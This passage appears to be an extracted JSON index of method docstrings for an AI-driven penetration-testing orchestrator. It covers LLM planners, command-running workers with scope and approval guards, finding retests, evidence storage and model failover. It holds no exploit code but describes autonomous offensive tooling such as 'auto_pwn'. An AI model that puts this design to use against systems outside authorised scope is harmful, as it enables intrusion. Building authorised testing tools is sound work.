like the planner set_constraints.\n\nScope selects where the constraint injects: planner, worker or\nboth (default). Reads take effect immediately each round.", "kind": "method", "line": 2701, "name": "add_constraint", "signature": "def add_constraint(self, task_id, ctype, text, scope)"}, {"doc": "Register authorized asset scope like the planner add_task_scope.", "kind": "method", "line": 2720, "name": "add_scope", "signature": "def add_scope(self, task_id, kind, value, reason)"}, {"doc": "Attach mid-run correction to a running intent like steer_work.", "kind": "method", "line": 2731, "name": "steer", "signature": "def steer(self, task_id, intent_id, message)"}, {"doc": "Flag a running intent for termination like kill_work.", "kind": "method", "line": 2740, "name": "kill", "signature": "def kill(self, task_id, intent_id)"}, {"doc": "Return pending steer message for intent if any.", "kind": "method", "line": 2751, "name": "steer_for", "signature": "def steer_for(self, task_id, intent_id)"}, {"doc": "Drop the pending steer message for an intent after delivery.", "kind": "method", "line": 2756, "name": "clear_steer", "signature": "def clear_steer(self, task_id, intent_id)"}, {"doc": "Report whether intent was flagged for termination.", "kind": "method", "line": 2769, "name": "killed", "signature": "def killed(self, task_id, intent_id)"}, {"doc": "Bind planner to task collaborators.", "kind": "method", "line": 2936, "name": "__init__", "signature": "def __init__(self, task_id, assets, graph, activity, store)"}, {"doc": "Return task constraints visible to the planner.", "kind": "method", "line": 2947, "name": "_constraints", "signature": "def _constraints(self)"}, {"doc": "Return matching deny constraint text or empty string.", "kind": "method", "line": 2956, "name": "_denied", "signature": "def _denied(self, text)"}, {"doc": "Emit 0..N intents from current situation; most wakeups emit zero.\n\nFaithful to Lazy planner: stall-guard forces at least one intent\nwhen goals are unmet and nothing is open/running; goalless tasks\nnever enter the planner; deny constraints block candidates;\nthe tool catalog gates intent/goal writing per agent lane.", "kind": "method", "line": 2964, "name": "plan", "signature": "def plan(self, triggers)"}, {"doc": "Re-plan pending intents against fresh outcomes, like plan refinement.\n\nRuns after :meth:`plan` every round: drops duplicate pending intents,\nsettles intents covered by terminal work on the same assets, blocks\nintents hit by new deny constraints, and caps pending overflow by\nlowest priority. Every transition is emitted so the operator and\nthe dataset see what the re-plan changed.\n\nReturns:\n    Counts by refine action (dupe, covered, denied, capped).", "kind": "method", "line": 3043, "name": "refine", "signature": "def refine(self)"}, {"doc": "Return origin fact id, creating it once.", "kind": "method", "line": 3116, "name": "_origin_fact", "signature": "def _origin_fact(self)"}, {"doc": "Build candidate intents from serial todos, hints, coverage, findings.", "kind": "method", "line": 3125, "name": "_candidates", "signature": "def _candidates(self)"}, {"doc": "Final planner round: park open intents and record the wrap-up.\n\nPort of the timeout wrap-up round: nothing new is dispatched,\nevery open/pending/running intent is parked as stopped so the\nfrontier is clean, and the reason lands in the activity stream\nfor the audit trail.", "kind": "method", "line": 3259, "name": "finalize", "signature": "def finalize(self, reason)"}, {"doc": "Return a throttled delta reporter for the planner activity log.", "kind": "method", "line": 3275, "name": "_delta_sink", "signature": "def _delta_sink(self)"}, {"doc": "Ask the configured LLM chain for extra intents; empty without members.", "kind": "method", "line": 3289, "name": "_llm_candidates", "signature": "def _llm_candidates(self, existing)"}, {"doc": "Force one forward intent when exploration stalled like the planner.\n\nFires only when goals are unmet and no intent is open/running.\nPrefers an untested scoped asset, else re-drives the most recent\ndone intent with a new mechanism, else a scoped baseline probe.", "kind": "method", "line": 3347, "name": "_stall_intent", "signature": "def _stall_intent(self, existing)"}, {"doc": "Bind worker to task collaborators.\n\nArgs:\n    name: Worker identity used in every activity line.\n    task_id: Task the worker serves.\n    assets: Asset graph shared with the engine.\n    graph: Exploration graph shared with the engine.\n    activity: Activity log for the task.\n    traffic: Traffic log for the task.\n    guard: Command guard for the task.\n    store: Task store for pause/kill/budget signals.\n    shell: Optional live shell handle for steering.\n    ephemeral: When True the worker closes its shell and\n        unregisters itself in ``_finish`` (one-shot use). Pool\n        workers pass False and live until ``close()``.", "kind": "method", "line": 3376, "name": "__init__", "signature": "def __init__(self, name, task_id, assets, graph, activity, traffic, guard, store, shell, ephemeral)"}, {"doc": "Point a pooled worker at the collaborators of the current round.\n\nLong-lived workers keep identity and shell sessions across rounds;\neach round hands them freshly loaded graph/log views so a stale\nin-memory generation never leaks between rounds.", "kind": "method", "line": 3421, "name": "rebind", "signature": "def rebind(self, assets, graph, activity, traffic, guard, store, shell)"}, {"doc": "Release the worker's shell session and shutdown registration.", "kind": "method", "line": 3445, "name": "close", "signature": "def close(self)"}, {"doc": "Enforce explicit scope: targets outside scope are blocked.", "kind": "method", "line": 3456, "name": "_scope_allows_target", "signature": "def _scope_allows_target(self, target)"}, {"doc": "Return commands already executed for this intent plus a transcript.\n\nResume parity: a re-claimed intent (pause/cancel/re-drive) must\ncontinue where it stopped, not repeat finished tool calls.", "kind": "method", "line": 3485, "name": "_prior_steps", "signature": "def _prior_steps(self, intent)"}, {"doc": "Run one intent to completion and write facts back.", "kind": "method", "line": 3509, "name": "execute", "signature": "def execute(self, intent, executor, timeout_sec)"}, {"doc": "Shared closing: writeback, state and coverage for both paths.", "kind": "method", "line": 3707, "name": "_finish", "signature": "def _finish(self, intent, outcome, transcripts, worker_tools, skipped_tools)"}, {"doc": "Resolve concrete target for scope enforcement.", "kind": "method", "line": 3772, "name": "_target_for", "signature": "def _target_for(self, intent)"}, {"doc": "One command through scope → deny → preflight → guard → ask → run.\n\nShared by the deterministic step loop and the agentic tool runner\nso both take the exact same safety path and audit trail.\n\nReturns:\n    ``(output, status, detail)`` where status is ``ok`` with the\n    command output, ``blocked`` with the reason, or ``skipped``\n    with the missing binary name.", "kind": "method", "line": 3780, "name": "_guard_step", "signature": "def _guard_step(self, intent, command, executor, budget, intercept, retry_state)"}, {"doc": "Return the stop reason for the agent loop, or empty to continue.", "kind": "method", "line": 3962, "name": "_agent_checkpoint", "signature": "def _agent_checkpoint(self, intent)"}, {"doc": "Return and clear a pending operator steer as a model message.", "kind": "method", "line": 3977, "name": "_drain_steer", "signature": "def _drain_steer(self, intent)"}, {"doc": "Guard preflight for agent side channels; empty when allowed.\n\nBackground jobs and persistent-shell commands must pass the same\nscope, deny-constraint, binary and guard checks as foreground\nsteps; returns the refusal text or an empty string.", "kind": "method", "line": 3988, "name": "_agent_preflight", "signature": "def _agent_preflight(self, intent, command)"}, {"doc": "Launch one guarded command as a tracked background job.\n\nReturns the model-facing acknowledgment with the job id. The\noutput stays queryable through the job_status/job_output tools\nand is folded into the intent transcript once finished.", "kind": "method", "line": 4021, "name": "_start_background_job", "signature": "def _start_background_job(self, command, intent, transcripts)"}, {"doc": "Start a persistent bash session for the agentic loop.", "kind": "method", "line": 4053, "name": "_open_shell_session", "signature": "def _open_shell_session(self, intent)"}, {"doc": "Run one guarded command inside the persistent shell session.", "kind": "method", "line": 4088, "name": "_send_shell", "signature": "def _send_shell(self, command, intent, timeout_sec)"}, {"doc": "Terminate the persistent shell session, if any.", "kind": "method", "line": 4124, "name": "_close_shell_session", "signature": "def _close_shell_session(self)"}, {"doc": "Tool specs handed to the agentic worker (guard-enforced).", "kind": "method", "line": 4151, "name": "_agent_tools", "signature": "def _agent_tools(self, intent, executor, transcripts, budget, intercept, retry_state)"}, {"doc": "Invariant agent contract: goal, intent, scope, constraints, rules.", "kind": "method", "line": 4332, "name": "_agent_system_prompt", "signature": "def _agent_system_prompt(self, intent)"}, {"doc": "Run the intent through a real tool-calling agent when configured.\n\nReturns True when the agentic path executed (successfully or\nnot); False falls back to the deterministic step loop.", "kind": "method", "line": 4364, "name": "_agentic_try", "signature": "def _agentic_try(self, intent, outcome, transcripts, executor, budget, intercept, retry_state)"}, {"doc": "Return matching worker-scope deny constraint text or empty string.", "kind": "method", "line": 4462, "name": "_denied", "signature": "def _denied(self, command)"}, {"doc": "Auto-approve read-only probes, hold the rest for approval.", "kind": "method", "line": 4473, "name": "_auto_approve", "signature": "def _auto_approve(self, command)"}, {"doc": "Return the binary a probe needs but the host lacks, else ''.\n\nAutomation verbs run through the shell and their tooling was\nalready gated by the registry, so only raw bash probes are\npreflighted here.", "kind": "method", "line": 4485, "name": "_missing_tool", "signature": "def _missing_tool(self, command)"}, {"doc": "Execute command through injected executor or LazyOwn runner.", "kind": "method", "line": 4501, "name": "_run", "signature": "def _run(self, command, executor)"}, {"doc": "Prefix pool-suggested commands while keeping the deterministic fallback.", "kind": "method", "line": 4551, "name": "_with_llm_steps", "signature": "def _with_llm_steps(self, intent, steps, prior_text)"}, {"doc": "Ask the pool for up to three concrete next commands for this intent.\n\nSuggestions are filtered before execution: denied by config,\nmissing binaries and out-of-scope hosts never reach the loop.", "kind": "method", "line": 4562, "name": "_llm_steps", "signature": "def _llm_steps(self, intent, prior_text)"}, {"doc": "Bounded LLM wrap-up turning partial work into one fact.\n\nPort of the settlement phase: when budget cuts an agent mid-run\nthe model gets one last bounded turn to write back what it\nlearned. Without a pool the deterministic transcript fact from\n``_writeback`` still lands, so this never blocks progress.", "kind": "method", "line": 4644, "name": "_settle_partial", "signature": "def _settle_partial(self, intent, transcripts, reason)"}, {"doc": "Return a throttled callback that reports model deltas.\n\nDeltas arrive per token; the activity log gets at most one line\nper second with the cumulative character count so a long reply\nstays visible without flooding the trace.", "kind": "method", "line": 4680, "name": "_delta_sink", "signature": "def _delta_sink(self, intent_id)"}, {"doc": "Expand the first-token shell alias so checks see through it.", "kind": "method", "line": 4704, "name": "_resolved_command", "signature": "def _resolved_command(self, command)"}, {"doc": "Skip sudo commands when passwordless sudo is unavailable.\n\nReturns (True, \"\") when the command may run; (False, refusal)\nwhen it must be skipped before executing, so no INFO panel,\nsudo error or post-tool failure ever reaches the operator.", "kind": "method", "line": 4718, "name": "_sudo_guard", "signature": "def _sudo_guard(self, intent, command)"}, {"doc": "Commands already executed anywhere in this task.\n\nThe LLM planner sometimes re-proposes a verb (``lazynmap``,\n``auto_pwn``) under a new intent. Replaying a finished command\nadds no information, so pooled steps are filtered against the\ntask's whole tool history, not only the current intent.", "kind": "method", "line": 4745, "name": "_task_executed_commands", "signature": "def _task_executed_commands(self)"}, {"doc": "Retarget foreign hosts and repair target-less network commands.\n\nThe planner LLM sometimes proposes commands that mention its\ntraining data (``nmap.org``) or forget the target entirely\n(``nmap -p 75``). Both are wrong against a real engagement: the\nstep is rewritten to hit the intent target, or reduced to the\ntarget alone when nothing usable remains.", "kind": "method", "line": 4768, "name": "_sanitize_step", "signature": "def _sanitize_step(self, intent, command)"}, {"doc": "Return True when every host a command mentions is in scope.", "kind": "method", "line": 4822, "name": "_command_in_scope", "signature": "def _command_in_scope(self, command)"}, {"doc": "Bind recorder exchanges whose bodies match the finding evidence.\n\nTwo distinctive tokens from the evidence drive a proxy body\nsearch; hits already ingested into the task traffic log are\nattached as supporting evidence, so a finding carries the actual\nrequest/response pair and not just the command line.", "kind": "method", "line": 4831, "name": "_auto_bind_body_hits", "signature": "def _auto_bind_body_hits(self, finding, seed)"}, {"doc": "Translate intent summary into real probe commands.", "kind": "method", "line": 4883, "name": "_steps_for", "signature": "def _steps_for(self, intent)"}, {"doc": "Write one aggregated fact plus assets/findings atomically with dedupe.", "kind": "method", "line": 4943, "name": "_writeback", "signature": "def _writeback(self, intent, transcripts, allow_finding)"}, {"doc": "Bind retester to task collaborators.", "kind": "method", "line": 5071, "name": "__init__", "signature": "def __init__(self, graph, activity, traffic)"}, {"doc": "Re-execute finding evidence to reproduced/fixed/inconclusive.\n\nFaithful to the reference retester: minimal targeted replay of the stored\nPoC, inconclusive when the environment blocks a decision (auth, WAF,\nunreachable, thin evidence) — one failed request never proves fixed.", "kind": "method", "line": 5077, "name": "retest", "signature": "def retest(self, finding_id, executor, note)"}, {"doc": "Return finding + PoC + assets + constraints like get_finding_retest_context.", "kind": "method", "line": 5147, "name": "retest_context", "signature": "def retest_context(self, finding_id)"}, {"doc": "Bind compactor to task graph.", "kind": "method", "line": 5169, "name": "__init__", "signature": "def __init__(self, graph, activity)"}, {"doc": "Resolve per-task cold bookkeeping path.", "kind": "method", "line": 5174, "name": "_cold_path", "signature": "def _cold_path(self)"}, {"doc": "Load round counter, stamps and last run.", "kind": "method", "line": 5178, "name": "_load_cold", "signature": "def _load_cold(self)"}, {"doc": "Persist cold bookkeeping.", "kind": "method", "line": 5182, "name": "_save_cold", "signature": "def _save_cold(self, payload)"}, {"doc": "Resolve the background-compressed digest body cache path.", "kind": "method", "line": 5186, "name": "_bodies_path", "signature": "def _bodies_path(self)"}, {"doc": "Load compressed digest bodies keyed by block signature.", "kind": "method", "line": 5190, "name": "_load_bodies", "signature": "def _load_bodies(self)"}, {"doc": "Persist compressed digest bodies.", "kind": "method", "line": 5194, "name": "_save_bodies", "signature": "def _save_bodies(self, payload)"}, {"doc": "Generate compressed digest bodies in a background thread.\n\nPort of the background compaction pass: only the body cache file\nis written by the worker, so graph mutation stays in the planner\nround and can never race with workers writing facts. A real\ncooldown keeps one LLM pass per minute per task, and the\nin-flight guard stops overlapping runs.", "kind": "method", "line": 5198, "name": "_request_bodies", "signature": "def _request_bodies(self, blocks, cold)"}, {"doc": "Archive raw member transcripts for one digest (NOA parity).\n\nEnabled by ``noa_compaction`` in payload.json (default off). The\narchive keeps exactly what the digest folded so the context can be\nre-expanded or audited without the lossy body.\n\nReturns:\n    Relative archive name, or empty string when disabled.", "kind": "method", "line": 5247, "name": "_noa_archive", "signature": "def _noa_archive(self, signature, members, anchors)"}, {"doc": "List NOA raw archives for this task (newest first).", "kind": "method", "line": 5279, "name": "noa_archives", "signature": "def noa_archives(self, limit)"}, {"doc": "Refresh digest texts with compressed bodies from the cache.\n\nThe background worker only writes the body cache; applying it to\nthe graph happens here, inside the planner round, so concurrent\nworkers never race the compactor. Runs on quiet rounds too.", "kind": "method", "line": 5304, "name": "_apply_stored_bodies", "signature": "def _apply_stored_bodies(self, bodies)"}, {"doc": "Report whether node keeps its chain hot.", "kind": "method", "line": 5328, "name": "_is_live_intent", "signature": "def _is_live_intent(self, node)"}, {"doc": "Report whether node may fold, digests never fold.", "kind": "method", "line": 5332, "name": "_foldable", "signature": "def _foldable(self, node)"}, {"doc": "Compute hot nodes by reverse reachability from live intents.", "kind": "method", "line": 5338, "name": "hot_set", "signature": "def hot_set(self)"}, {"doc": "Return foldable non-hot nodes before debounce.", "kind": "method", "line": 5360, "name": "structural_cold", "signature": "def structural_cold(self, hot)"}, {"doc": "Derive content versions from text hashes.", "kind": "method", "line": 5364, "name": "_content_versions", "signature": "def _content_versions(self)"}, {"doc": "Hash sorted member and anchor ids with versions.", "kind": "method", "line": 5372, "name": "_block_signature", "signature": "def _block_signature(self, members, anchors, versions)"}, {"doc": "Partition eligible nodes into foldable blocks.", "kind": "method", "line": 5381, "name": "_group", "signature": "def _group(self, eligible)"}, {"doc": "Return node ids already folded under active digests.", "kind": "method", "line": 5445, "name": "covered_members", "signature": "def covered_members(self)"}, {"doc": "Advance round, maintain stamps, trigger background compaction.", "kind": "method", "line": 5457, "name": "on_planner_round", "signature": "def on_planner_round(self)"}, {"doc": "Fold cold facts into digests like coldgraph minor/major.\n\nMinor folds only uncovered eligible nodes, major re-derives all\neligible groupings and reuses unchanged bodies by signature.\nTime-old nodes without stamps stay eligible for backward\ncompatibility, fresh nodes inside the debounce window stay hot.", "kind": "method", "line": 5498, "name": "compact", "signature": "def compact(self, threshold, mode, debounce_sec)"}, {"doc": "Restore digest members like expandDigest.", "kind": "method", "line": 5625, "name": "expand", "signature": "def expand(self, digest_id, role)"}, {"doc": "Group active digests by anchored asset.", "kind": "method", "line": 5649, "name": "cold_index", "signature": "def cold_index(self)"}, {"doc": "Return cold facts unfolded up to cap with a truncated flag.\n\nRestores the un-nerfed view: the operator sees real cold members\n(not just digest counts); ``truncated`` tells whether the cap hid\nthe tail.", "kind": "method", "line": 5667, "name": "unfolded", "signature": "def unfolded(self, limit)"}, {"doc": "Digest index: every digest with expandable members plus cold index.\n\n``expandable`` lists digests that still hold exhausted members\n(revivable via expand); ``covered`` counts cold facts already\nfolded under a digest (lineage coverage).", "kind": "method", "line": 5683, "name": "digest_overview", "signature": "def digest_overview(self)"}, {"doc": "Bind service to task collaborators.", "kind": "method", "line": 5885, "name": "__init__", "signature": "def __init__(self, task_id, graph, activity, store)"}, {"doc": "Register a finding with severity/evidence/dedupe like report_finding.", "kind": "method", "line": 5892, "name": "report", "signature": "def report(self, name, summary, poc, severity, vulnclass, intent_id, asset_ids, traffic_refs)"}, {"doc": "Resolve the background draft result cache path.", "kind": "method", "line": 5956, "name": "_drafts_ready_path", "signature": "def _drafts_ready_path(self)"}, {"doc": "Reporter turn: draft the finding report (agent parity).\n\nWith ``REPORTER_BACKGROUND_ENABLED`` the LLM call runs in a\nbackground thread and the result is committed on the next round\nby :meth:`apply_drafts` (same liveness pattern as compaction).\nOtherwise the draft is computed synchronously. Without a pool\nboth paths are no-ops and the human workflow is unchanged.", "kind": "method", "line": 5960, "name": "_draft_report", "signature": "def _draft_report(self, node)"}, {"doc": "Run the bounded reporter completion and return the markdown.", "kind": "method", "line": 6015, "name": "_reporter_reply", "signature": "def _reporter_reply(self, pool, chain, entry)"}, {"doc": "Commit one reporter draft onto its finding node.", "kind": "method", "line": 6031, "name": "_write_draft", "signature": "def _write_draft(self, finding_id, report, evidence_version)"}, {"doc": "Commit finished background reporter drafts onto their findings.\n\nCalled once per planner round; only drafts whose evidence\nversion still matches the finding are applied, so an updated\nfinding never inherits a stale report.", "kind": "method", "line": 6049, "name": "apply_drafts", "signature": "def apply_drafts(self)"}, {"doc": "Transition finding status like the workflow disposition.", "kind": "method", "line": 6086, "name": "set_status", "signature": "def set_status(self, finding_id, status)"}, {"doc": "Write the narrative report and bump the evidence version.\n\nArgs:\n    finding_id: Finding node id.\n    report: Markdown report body.\n\nReturns:\n    New evidence version, or 0 when the finding is unknown/empty.", "kind": "method", "line": 6103, "name": "update_report", "signature": "def update_report(self, finding_id, report)"}, {"doc": "Findings ordered critical-first like the Markdown renderer.", "kind": "method", "line": 6125, "name": "ranked", "signature": "def ranked(self)"}, {"doc": "Bind vault to task.", "kind": "method", "line": 6135, "name": "__init__", "signature": "def __init__(self, task_id)"}, {"doc": "Load vault payload.", "kind": "method", "line": 6140, "name": "_load", "signature": "def _load(self)"}, {"doc": "Attach evidence to a finding and return the record.", "kind": "method", "line": 6144, "name": "add", "signature": "def add(self, finding_id, kind, body)"}, {"doc": "Return ids whose body fails the sha256 integrity check.", "kind": "method", "line": 6161, "name": "verify", "signature": "def verify(self)"}, {"doc": "Drop evidence for findings no longer present; returns removed.", "kind": "method", "line": 6170, "name": "gc", "signature": "def gc(self, valid_findings)"}, {"doc": "Return evidence attached to one finding.", "kind": "method", "line": 6186, "name": "for_finding", "signature": "def for_finding(self, finding_id)"}, {"doc": "Read one evidence body in bounded byte ranges.\n\nPort of the ranged evidence download: large PoCs and captured\nbodies are served in chunks so a report or an operator can page\nthrough them without loading everything at once.\n\nArgs:\n    evidence_id: Evidence record id.\n    offset: Byte offset to start from (clamped to >= 0).\n    length: Maximum bytes returned (clamped to 1..8192).\n\nReturns:\n    Dict with id, finding_id, kind, sha256, total, offset,\n    length and chunk.\n\nRaises:\n    KeyError: Unknown evidence id.", "kind": "method", "line": 6190, "name": "read", "signature": "def read(self, evidence_id, offset, length)"}, {"doc": "Dump vault to a file for the report pipeline.", "kind": "method", "line": 6227, "name": "export", "signature": "def export(self, path)"}, {"doc": "Bind optional channel config from task store.", "kind": "method", "line": 6238, "name": "__init__", "signature": "def __init__(self, store)"}, {"doc": "Return configured channels (empty = log only).", "kind": "method", "line": 6242, "name": "channels", "signature": "def channels(self)"}, {"doc": "Register a channel: log|webhook|file|slack|email with severity floor.\n\nArgs:\n    kind: Channel type.\n    target: URL, file path, ``smtp-host:port`` or log label.\n    min_severity: Skip events below this severity.\n    extra: Optional email/slack fields (to, from_addr, user,\n        password, tls).\n\nReturns:\n    Stored channel dict.\n\nRaises:\n    ValueError: Unknown channel kind.", "kind": "method", "line": 6250, "name": "add_channel", "signature": "def add_channel(self, kind, target, min_severity, extra)"}, {"doc": "Remove one channel by its 1-based list position.", "kind": "method", "line": 6297, "name": "remove_channel", "signature": "def remove_channel(self, index)"}, {"doc": "Deliver one notification over SMTP; False on missing target.", "kind": "method", "line": 6310, "name": "_send_email", "signature": "def _send_email(channel, line, event)"}, {"doc": "Fan out finding/status/task events; returns deliveries.\n\nChannels: log (always), webhook, slack (text payload), file and\nemail (SMTP with optional STARTTLS/login).", "kind": "method", "line": 6348, "name": "emit", "signature": "def emit(self, task_id, event, data)"}, {"doc": "Bind trigger table (global when task_id empty).", "kind": "method", "line": 6404, "name": "__init__", "signature": "def __init__(self, task_id)"}, {"doc": "Load trigger payload.", "kind": "method", "line": 6409, "name": "_load", "signature": "def _load(self)"}, {"doc": "Register a trigger; interval needs every_sec, events fire on new rows.", "kind": "method", "line": 6413, "name": "add", "signature": "def add(self, kind, arg, every_sec)"}, {"doc": "Delete a trigger.", "kind": "method", "line": 6432, "name": "remove", "signature": "def remove(self, trigger_id)"}, {"doc": "Return all triggers.", "kind": "method", "line": 6442, "name": "list", "signature": "def list(self)"}, {"doc": "Register the catalog trigger once so services fire the loop.\n\nThe trigger is what turns ``lazyaddons`` / ``tools`` service\nmetadata into an orchestrator event: whenever a new service\nasset lands, the next round fires with the matching addon and\ntool names attached.", "kind": "method", "line": 6446, "name": "ensure_service_trigger", "signature": "def ensure_service_trigger(self)"}, {"doc": "Evaluate triggers like the scheduler tick; fires at most once each.\n\nThe ``service`` and ``task_create`` kinds need the asset graph /\ntask store: pass them to enable those events, the rest stay\ngraph/activity driven.", "kind": "method", "line": 6459, "name": "due", "signature": "def due(self, task_id, graph, activity, assets, store)"}, {"doc": "Load member list and usage ledger paths.", "kind": "method", "line": 6566, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Persist the default legs once so operators can edit/remove them.\n\nPools seeded before a new default leg ships are backfilled by\nname, so existing operators gain the leg without losing edits.", "kind": "method", "line": 6577, "name": "_seed_defaults", "signature": "def _seed_defaults(self)"}, {"doc": "Return configured chain in order, seeding defaults on first use.", "kind": "method", "line": 6601, "name": "members", "signature": "def members(self)"}, {"doc": "Append a chain member backed by llm_factory at call time.", "kind": "method", "line": 6606, "name": "add_member", "signature": "def add_member(self, name, model, priority)"}, {"doc": "Drop a chain member.", "kind": "method", "line": 6615, "name": "remove_member", "signature": "def remove_member(self, name)"}, {"doc": "Change one member's failover rank, keeping the rest untouched.", "kind": "method", "line": 6625, "name": "set_priority", "signature": "def set_priority(self, name, priority)"}, {"doc": "Return per-member call ledger like llm_usage.", "kind": "method", "line": 6638, "name": "usage", "signature": "def usage(self)"}, {"doc": "Append one ledger row like llmrec capture.", "kind": "method", "line": 6642, "name": "_record", "signature": "def _record(self, member, ok, text)"}, {"doc": "Round-robin equal-priority members with a persisted cursor.\n\nLayer 1 of the failover policy: a rank tie must not pin the same\nhead forever. The cursor lives in ``llm_pool.json`` so rotation\ncontinues across processes.", "kind": "method", "line": 6648, "name": "_rotated_chain", "signature": "def _rotated_chain(self, chain)"}, {"doc": "Move the MoE/RL preferred member first when learning is on.\n\nThe router proposes an expert for the task; the RL policy picks\namong the available member names. Both are stage-gated inside the\nbridge, so with learning disabled the chain is returned as-is.", "kind": "method", "line": 6677, "name": "_reorder_with_ai", "signature": "def _reorder_with_ai(self, chain, live_log)"}, {"doc": "Feed one member outcome to the MoE store and the RL trainer.", "kind": "method", "line": 6717, "name": "_record_ai_outcome", "signature": "def _record_ai_outcome(self, member, ok, live_log)"}, {"doc": "Fail over across members; empty string when no backend answers.\n\nA model that connects yet yields nothing gets ``empty_retries``\nbounded replays before the pool moves on: a completed call with\nno produced content answers the same question as an empty turn,\nonly the verdict differs. Misses and empties feed the shared\nhealth registry, so a dead head is cooled down, not hammered.\n\nArgs:\n    prompt: User prompt text.\n    max_tokens: Response cap.\n    empty_retries: Bounded replays for empty turns.\n    members: Optional chain override (per-task chain).\n    task_id: When set, the task's persisted chain drives member\n        order and explicit quota exhaustion advances its cursor.\n\nReturns:\n    Response text, empty when every member failed.", "kind": "method", "line": 6730, "name": "complete", "signature": "def complete(self, prompt, max_tokens, empty_retries, members, task_id, on_delta)"}, {"doc": "Return per-member health state for lazy_llm health.", "kind": "method", "line": 6895, "name": "health", "signature": "def health(self)"}, {"doc": "Return the prompt context character budget (default 2000).", "kind": "method", "line": 6906, "name": "context_budget", "signature": "def context_budget(self)"}, {"doc": "Return whether raw prompt/response recording is enabled.", "kind": "method", "line": 6911, "name": "record_raw", "signature": "def record_raw(self)"}, {"doc": "Toggle raw prompt/response recording in the pool ledger.", "kind": "method", "line": 6916, "name": "set_record_raw", "signature": "def set_record_raw(self, enabled)"}, {"doc": "Return the most recent raw LLM exchanges.", "kind": "method", "line": 6923, "name": "raw_entries", "signature": "def raw_entries(self, limit)"}, {"doc": "Append one raw exchange when recording is enabled.", "kind": "method", "line": 6937, "name": "_record_raw", "signature": "def _record_raw(self, member, prompt, reply, ok)"}, {"doc": "Persist the prompt context character budget.\n\nArgs:\n    chars: Budget clamped to 200..20000 characters.\n\nReturns:\n    The stored budget.", "kind": "method", "line": 6954, "name": "set_context_budget", "signature": "def set_context_budget(self, chars)"}, {"doc": "Load binding table.", "kind": "method", "line": 6972, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Load catalog payload.", "kind": "method", "line": 6976, "name": "_load", "signature": "def _load(self)"}, {"doc": "Return bindings for one agent or the whole table.", "kind": "method", "line": 6989, "name": "bindings", "signature": "def bindings(self, agent)"}, {"doc": "Opt a tool into an agent lane.", "kind": "method", "line": 6994, "name": "bind", "signature": "def bind(self, agent, tool)"}, {"doc": "Remove a tool from an agent lane.", "kind": "method", "line": 7003, "name": "unbind", "signature": "def unbind(self, agent, tool)"}, {"doc": "Answer from graph overview + recent trace within a char budget.", "kind": "method", "line": 7023, "name": "ask", "signature": "def ask(self, task_id, question, pool, session)"}, {"doc": "Return persisted side exchanges, optionally one session only.", "kind": "method", "line": 7069, "name": "history", "signature": "def history(self, task_id, session, limit)"}, {"doc": "Return side-question session names for a task.", "kind": "method", "line": 7077, "name": "sessions", "signature": "def sessions(self, task_id)"}, {"doc": "Load company table.", "kind": "method", "line": 7090, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Load company payload.", "kind": "method", "line": 7094, "name": "_load", "signature": "def _load(self)"}, {"doc": "Register a company with an optional scope pattern.", "kind": "method", "line": 7098, "name": "add", "signature": "def add(self, name, scope)"}, {"doc": "Return companies with asset counts.", "kind": "method", "line": 7107, "name": "list", "signature": "def list(self)"}, {"doc": "Return companies whose scope substring hits the value.", "kind": "method", "line": 7111, "name": "match", "signature": "def match(self, value)"}, {"doc": "Snapshot task record + graph + activity tail into one archive.", "kind": "method", "line": 7120, "name": "save", "signature": "def save(self, task_id)"}, {"doc": "Return archive snapshots with task + node counts.", "kind": "method", "line": 7141, "name": "list", "signature": "def list(self)"}, {"doc": "Restore one archive as a NEW task; returns the new task id.\n\nNodes, edges, anchors, scope and constraints all come back, so a\nrestored task keeps the exact exploration structure and\nauthorization surface of the archived one (nothing is dropped).", "kind": "method", "line": 7163, "name": "restore", "signature": "def restore(self, path)"}, {"doc": "Aggregate counts across archives like archive aggregate stats.", "kind": "method", "line": 7230, "name": "stats", "signature": "def stats(self)"}, {"doc": "Bind template table.", "kind": "method", "line": 7239, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Load template payload.", "kind": "method", "line": 7243, "name": "_load", "signature": "def _load(self)"}, {"doc": "Return all templates.", "kind": "method", "line": 7247, "name": "list", "signature": "def list(self)"}, {"doc": "Register a template; names are unique (overwrite on clash).", "kind": "method", "line": 7251, "name": "add", "signature": "def add(self, name, goal)"}, {"doc": "Delete a template by name.", "kind": "method", "line": 7261, "name": "remove", "signature": "def remove(self, name)"}, {"doc": "Return one template by name or None.", "kind": "method", "line": 7271, "name": "get", "signature": "def get(self, name)"}, {"doc": "Bind optional task store.", "kind": "method", "line": 7282, "name": "__init__", "signature": "def __init__(self, store)"}, {"doc": "Label a task; returns the mapping.", "kind": "method", "line": 7287, "name": "set", "signature": "def set(self, task_id, category)"}, {"doc": "Return the category for a task or empty string.", "kind": "method", "line": 7294, "name": "get", "signature": "def get(self, task_id)"}, {"doc": "Return task->category rows, optionally filtered.", "kind": "method", "line": 7298, "name": "list", "signature": "def list(self, category)"}, {"doc": "Append a human turn and answer from task context; returns both.", "kind": "method", "line": 7313, "name": "say", "signature": "def say(self, task_id, text, pool, session)"}, {"doc": "Return recent conversation turns, optionally one session only.", "kind": "method", "line": 7356, "name": "log", "signature": "def log(self, task_id, limit, session)"}, {"doc": "Return session names active in a task.", "kind": "method", "line": 7372, "name": "sessions", "signature": "def sessions(self, task_id)"}, {"doc": "Drop one session's turns, or the whole log when session is empty.", "kind": "method", "line": 7381, "name": "clear", "signature": "def clear(self, task_id, session)"}, {"doc": "Load shared stores.", "kind": "method", "line": 7436, "name": "__init__", "signature": "def __init__(self, shell)"}, {"doc": "Attach the live shell so workers route auto/addon verbs via it.", "kind": "method", "line": 7462, "name": "bind_shell", "signature": "def bind_shell(self, shell)"}, {"doc": "Register scope + asset for target like lazy_scope/lazy_asset.", "kind": "method", "line": 7466, "name": "ensure_target", "signature": "def ensure_target(self, task_id, target, reason)"}, {"doc": "Single entry for lazy_loop + auto_loop: create, scope, run, report.", "kind": "method", "line": 7493, "name": "orchestrate", "signature": "def orchestrate(self, goal, task_id, target, max_rounds, workers, timeout_sec, executor)"}, {"doc": "Build per-task collaborators.", "kind": "method", "line": 7516, "name": "_parts", "signature": "def _parts(self, task_id)"}, {"doc": "Create task, decompose goals, register scope, return summary.", "kind": "method", "line": 7521, "name": "create_task", "signature": "def create_task(self, goal, description)"}, {"doc": "Create a task read-only inheriting assets and findings.\n\nScope rules copy over verbatim and each source finding lands as\na fact stamped with its origin, so the child reads 